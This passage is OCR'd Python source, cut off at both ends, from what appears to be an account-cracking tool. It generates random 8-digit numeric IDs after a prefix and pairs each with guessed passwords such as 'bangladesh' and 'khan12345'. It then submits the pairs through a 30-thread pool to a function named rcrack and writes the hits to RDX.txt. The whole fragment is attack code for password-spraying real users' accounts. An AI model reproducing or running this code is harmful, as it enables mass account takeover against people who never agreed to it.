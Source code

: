     for nmbr in range(limit):

	    nmp = ''.join(random.choice(string.digits) for _ in range(8))	    user.append(nmp)

    with ThreadPool(max_workers=30) as yaari:

	    os.system('clear')

	    print(logo)

	    tl = str(len(user))

	    print('TOTAL IDS:\033[1;93m '+tl)

	    print(54*'─')

	    for guru in user:

		    uid = kode+guru

		    pwx = [guru, 'bangladesh','Bangladesh','khankhan','khan12345']

		    yaari.submit(rcrack,uid,pwx,tl)

    print('[✓] Crack process has been completed')

    print('[?] Ids saved in RDX.txt')

    print(54*'─')

    print('Press Inter To Back Menu')

    os.system('python2 Random.py')

agents=[]

def rcrack(uid,pwx,tl):

	#print(user)

	global loop

	global cps

	global oks

	global agents

	try:

		for ps in pwx:
